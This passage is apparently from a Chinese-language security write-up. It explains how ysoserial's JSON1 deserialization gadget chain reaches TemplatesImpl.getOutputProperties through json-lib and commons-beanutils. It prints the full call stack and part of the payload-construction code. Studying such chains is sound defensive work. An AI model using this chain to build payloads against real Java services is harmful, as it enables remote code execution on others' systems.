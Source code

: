 不过此处获取的顺序会有一定的不稳定性，有时 `outputProperties` 会在 `stylesheetDOM` 之前，这个时候反序列化攻击可以成功。

## 关于 JSON1 链

其实利用 JSON 序列化库触发所有 `getter` 方法并不鲜见。ysoserial【2】 中的 JSON1 链就利用了 `net.sf.json-lib` 这个 JSON 序列化库来触发 `getOutputProperties` 方法。

我们截取它的调用链研究一下：

```plain
/**
 *
 * A bit more convoluted example
 *
 * com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(Object, Method, Object[])
 * org.springframework.aop.framework.JdkDynamicAopProxy.invoke(Object, Method, Object[])
 * $Proxy0.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(Method, Object, Object[])
 * org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtils.getProperty(Object, String)
 * net.sf.json.JSONObject.defaultBeanProcessing(Object, JsonConfig)
 * net.sf.json.JSONObject._fromBean(Object, JsonConfig)
 * net.sf.json.JSONObject.fromObject(Object, JsonConfig)
 * net.sf.json.JSONObject(AbstractJSON)._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object)
 * javax.management.openmbean.TabularDataSupport.containsValue(CompositeData)
 * javax.management.openmbean.TabularDataSupport.equals(Object)
 * java.util.HashMap<K,V>.putVal(int, K, V, boolean, boolean)
 * java.util.HashMap<K,V>.readObject(ObjectInputStream)
 *
 * @author mbechler
 *
 */
```

从下往上看，可以看到最先有一段调用，从 `java.util.HashMap#readObject` 触发 `net.sf.json.JSONObject#containsValue`. 然后 `net.sf.json.JSONObject#defaultBeanProcessing` 尝试触发它包裹的对象的所有 `getter` 方法。这里用到了 commons-beanutils 这个库获取 `getter` 方法，然后反射触发。

按照 JACKSON 链的逻辑，这里可以，直接包裹一个 `TemplatesImpl` 类型的对象，然后触发其 `getOutputProperties` 方法。

但是这里 JSON1 链没有让 `JSONObject` 直接包裹一个 `TemplatesImpl` 类型的对象，而是包裹了一个代理类的对象 `cdsProxy`

```plain
Object payload = Gadgets.createTemplatesImpl(command);
                Class[] ifaces = new Class[]{Templates.class};
                // we need to make payload implement composite data
        // it's very likely that there are other proxy impls that could be used
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(payload);
        InvocationHandler delegateInvocationHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", as);
        InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getCompositeType", rt));
        InvocationHandler invocationHandler = (InvocationHandler) Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl");
        ((Map) Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(CompositeData.class, cdsInvocationHandler);
```
